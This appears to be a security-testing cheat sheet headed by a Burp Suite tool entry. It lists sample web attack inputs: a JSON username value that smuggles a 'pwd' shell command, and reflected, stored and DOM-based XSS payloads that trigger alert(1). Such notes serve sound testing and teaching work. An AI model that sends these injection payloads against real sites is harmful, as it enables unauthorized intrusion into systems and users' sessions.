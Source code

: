 ```yaml
---
title: Burp Suite
desc: Security testing tool for web applications.
tags: [ActiveRecon, BrokenAccessControl, OAuth, Password, SQLi, SSRF, XSS]
alts: [OwaspZap]
website: https://portswigger.net/burp
---
```


## Json injection (HTTP POST request)

```json
{ "username": "\"; pwd \"" }
```

<br />

## XSS (Cross-site scripting)

### 1. Reflected XSS

```html
https://victim_site.com/item?id=<script>alert(1)</script>

<!-- ------------------------------------------------ -->

<p><script>alert(1)</script></p>
```

<br />

### 2. Stored XSS

```html
POST /post/comment HTTP/1.1
Host: victim_site.com
Content-Length: 52

id=2&message=%3Cscript%3Ealert%281%29%3C%2Fscript%3E

<!-- ---------------------------------------------------- -->

<p><script>alert(1)</script></p>
```

<br />

### 3. DOM XSS

```html
<img src=1 onerror='alert(1)' />

<!-- ---------------------------------------------------- -->

<p>
    Search result for <img src=1 onerror='alert(1)' />
</p>
```